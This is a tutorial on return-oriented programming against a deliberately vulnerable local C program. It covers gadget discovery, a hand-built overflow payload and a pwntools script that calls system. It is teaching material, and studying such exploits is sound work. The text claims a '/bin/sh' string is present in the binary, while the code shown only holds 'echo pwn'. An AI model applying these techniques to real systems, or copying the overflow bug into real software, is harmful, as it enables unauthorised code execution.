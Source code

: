 # Introduction
Return-oriented programming is a set of techniques which allow code execution and bypass data execution prevention defences, such as NX, and code signing. ROP utilises *gadgets* in order to build chains and execute arbitrary instruction sequences.

Given control over the stack, an attacker may fill it with malicious return addresses, all pointing to the subsequent gadget in the ROP chain. When one gadget is executed, the `ret` instruction jumps to the address stored at the top of the stack and the stack pointer is incremented. Consequently, the stack pointer now points to the next malicious return address, forming a chain of gadgets.

# Gadgets
ROP gadgets are tiny instruction sequences which are already found in the target binary and end in a `ret` instruction. To manually find them within a binary, one might use a tool called `ROPgadget` with the following basic syntax:

`ROPgadget --binary [binary name]`

![](Resources/Images/ROP_ropgadget.png)

(This is just a small portion of the output.)

# Exploitation
```cpp
#include <stdio.h>
#include <stdlib.h>

void func()
{
	system("echo 'An inconspicuous echo...'");
}

void vuln()
{
	char input[20];
	fgets(input, 0x60, stdin);
}

int main()
{
	char* HarmlessString = "echo pwn";
	vuln();
	func();
	return 0;

}
```

We immediately notice a potential buffer overflow. Since `system` is called in the execution process of the binary, it will have a corresponding PLT entry. Furthermore, the string `"/bin/sh"` has been conveniently place in the binary - If we had the proper gadgets, we could string together a ROP chain, allowing us to execute `system("/bin/sh")`. Well, let's start digging.

Running ROPgadgets on the above binary reveals a way to write to `rdi`!
`0x000000000000126b : pop rdi ; ret`

Consequently, we can just write the address of the `"/bin/sh"` string in the binary, place it on the stack and, when the time comes, `rdi` will be populated with this address. All we will then need to do is return to the PLT entry of `system`, so that the function is invoked with the correct argument!

The addresses we need turn out to be:

`0x555555555040` - PLT entry of `system`
`0x55555555526b` - `pop rdi; ret` gadget
`0x555555556028` - `"/bin/sh"`
`0x5555555551ff` - the address we want to continue execution from once the ROP chain is finished

Knowing that we need exactly 40 character to overflow the return address of `vuln`, we get the following payload.

`AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA\x6b\x52\x55\x55\x55\x55\x00\x00\x28\x60\x55\x55\x55\x55\x00\x00\x40\x50\x55\x55\x55\x55\x00\x00\xff\x51\x55\x55\x55\x55\x00\x00`

![](Resources/Images/ROP_manual.png)

Input file:

![](Resources/Images/ROP_manual_input.png)

And... exploit!

![](Resources/Images/ROP_manual_exp.png)

# Exploiting with pwntools
`pwntools` comes with tools for automating the process of finding gadgets and stringing them into chains for exploitation.

You will first need to load the ELF executable and specify its base address:
```python
elf = ELF('./rop')
elf.address = 0x555555554000
```

Subsequently, initialise a ROP object:
```python
rop = ROP(elf)
```
## Pwntools ROP commands
Get a dictionary of available gadgets:
```python
rop.gadgets
```

![](Resources/Images/ROP_pwn_gadgets.png)

Insert raw bytes into the chain:
```python
rop.raw(bytes)
```

![](Resources/Images/ROP_pwn_raw.png)

Call functions:
```python
rop.call(symbol, [arguments])
```

![](Resources/Images/ROP_pwn_call.png)

Get chain as bytes:
```python
rop.chain()
```

![](Resources/Images/ROP_pwn_chain_bytes.png)

## The Exploit
Using the above cheatsheet, we arrive at the following python script for exploitation:
```python
#!/usr/bin/python3

from pwn import *

context.clear(arch='amd64')
elf = ELF('./rop')
elf.address = 0x555555554000

rop = ROP(elf)
rop.call(elf.symbols['system'], [next(elf.search(b"echo pwn\x00"))])

prog = process('./rop')

payload = [b"A"*40, rop.chain()]
payload = b"".join(payload)

prog.sendline(payload)
prog.interactive()

```

![](Resources/Images/ROP_pwn_success.png)